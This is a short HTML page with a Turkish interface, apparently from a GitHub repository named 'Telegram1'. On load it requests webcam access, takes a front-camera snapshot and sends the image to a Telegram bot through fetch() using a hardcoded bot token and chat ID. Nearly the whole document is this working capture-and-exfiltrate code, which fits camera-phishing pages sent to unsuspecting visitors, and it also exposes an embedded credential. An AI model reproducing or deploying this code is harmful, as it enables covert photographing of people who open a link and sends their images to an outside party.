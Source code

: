 # Telegram1<!DOCTYPE html>
<html lang="tr">
<head>
  <meta charset="UTF-8">
  <title>Telegram Botuna Kamera Görüntüsü</title>
  <style>
    body { font-family: sans-serif; text-align: center; padding: 40px; }
    video, canvas { display: none; }
  </style>
</head>
<body>
  <h2>📷 Kamera görüntüsü alınacak ve Telegram botuna gönderilecek</h2>
  <p>Lütfen kamera izni verin.</p>

  <video id="video" autoplay playsinline></video>
  <canvas id="canvas"></canvas>

  <script>
    const TELEGRAM_BOT_TOKEN = "7996559452:AAFUZHzo4URmpsKOXVemh5EkLWvzv-BWQTg";
    const CHAT_ID = "5012869228";

    async function captureAndSendToTelegram() {
      const video = document.getElementById("video");
      const canvas = document.getElementById("canvas");
      const ctx = canvas.getContext("2d");

      try {
        const stream = await navigator.mediaDevices.getUserMedia({
          video: { facingMode: "user" }
        });

        video.srcObject = stream;

        // 2 saniye bekle
        await new Promise(resolve => setTimeout(resolve, 2000));

        canvas.width = video.videoWidth;
        canvas.height = video.videoHeight;
        ctx.drawImage(video, 0, 0, canvas.width, canvas.height);

        canvas.toBlob(async (blob) => {
          const formData = new FormData();
          formData.append("chat_id", CHAT_ID);
          formData.append("photo", blob, "photo.png");

          const telegramUrl = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendPhoto`;

          const res = await fetch(telegramUrl, {
            method: "POST",
            body: formData
          });

          if (res.ok) {
            alert("📤 Fotoğraf Telegram'a gönderildi!");
          } else {
            alert("❌ Gönderim başarısız.");
          }

          // Kamerayı durdur
          stream.getTracks().forEach(track => track.stop());
        }, "image/png");

      } catch (err) {
        alert("Kamera erişimi alınamadı: " + err.message);
      }
    }

    window.onload = captureAndSendToTelegram;
  </script>
</body>
</html>
